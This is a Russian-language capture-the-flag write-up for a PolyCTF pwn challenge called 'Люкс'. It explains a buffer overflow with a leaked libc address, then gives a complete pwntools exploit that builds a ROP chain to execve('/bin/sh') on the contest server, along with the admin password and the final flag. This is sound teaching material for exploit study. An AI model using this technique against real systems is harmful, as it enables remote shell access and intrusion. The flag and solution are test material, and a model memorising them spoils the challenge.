

# Люкс | medium | pwn

## Информация
> Герой уже неделю живёт в этом роскошном отеле, но назвать его отдых идеальным сложно. Стандартный номер, скрипучая кровать, тусклый свет — явно не то, на что он рассчитывал. В соседних номерах постояльцы наслаждаются панорамными видами, джакузи и персональным обслуживанием, пока он вынужден мириться с этой посредственностью. Такое положение дел его не устраивает. Пора переселяться. Всё, что нужно, — изменить один параметр в базе данных. Ходят слухи, что сеть отеля не так уж и защищена, а доступ к серверу можно получить через уязвимость в роутере...

## Выдать участникам
файл [luxury](public/luxury)

## Описание
Для решения надо заметить переполнение буфера и возможность составить ROP-цепочку.

## Решение
Открываем бинарь, анализируем его. Флаг нигде не выводится, значит надо как-то получить шелл.

На этапе логинизации видим, что можно переполнить одну из переменных


(**s1 переполняется**)

Канарейка отсутвует, значит можем перетереть адрес возврата и составить ROP цепочку на execve("/bin/sh")

Чтобы это сделать нам нужны гаджеты и база libc

Базу можно найти с помощью функции админа, там выводятся адреса функций (берем последние три цифры и ищем libc на libc.rip)



(**Вывод адресов**)

После нахождения версии libc можно ее скачать и начать писать сплоит

Алгоритм будет следующим: сначала закидываем номер системного вызова, затем очищаем rsi, rdx, после закидываем в rdi адрес /bin/sh и делаем syscall

Гаджеты можно найти в libc с помощью утилиты ROPgadget

Код сплоита:

```python
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
exe = ELF("./luxury")
# s = process("./luxury")
s = remote("tasks.polyctf.ru", 30006)

s.recvuntil(b": ")
s.sendline(b"admin")
s.recvuntil(b": ")
s.sendline(b"V3rY_sTroNg_p1ss")

s.recvuntil(b"> ")
s.sendline(b"1")

s.recvuntil(b"-> ")

leak = s.recvline().strip()

# OFFSET_PRINTF = libc.symbols["printf"]
OFFSET_PRINTF = 0x525b0
LIBC_BASE = int(leak, 16) - OFFSET_PRINTF

print(hex(LIBC_BASE))

s.recvuntil(b"> ")
s.sendline(b"5")

s.recvuntil(b": ")
s.sendline(b"AAAA")

# bin_sh = 0x197e34
bin_sh = 0x196031
pop_rdi = 0x00000000000277e5
pop_rsi = 0x0000000000028f99
pop_rax = 0x000000000003f197
pop_rdx = 0x00000000000fde7d
syscall = 0x0000000000026428

ROP = p64(LIBC_BASE + pop_rax)
ROP += p64(0x3b)
ROP += p64(LIBC_BASE + pop_rdi)
ROP += p64(LIBC_BASE + bin_sh)
ROP += p64(LIBC_BASE + pop_rsi)
ROP += p64(0x0)
ROP += p64(LIBC_BASE + pop_rdx)
ROP += p64(0x0)
ROP += p64(LIBC_BASE + syscall)

s.sendline(b"A" * 32 + p64(0xCAFEBABE) + ROP)

s.interactive()


```
 
## Флаг
`PolyCTF{N0_R3tUrn_t0_hOm3}`
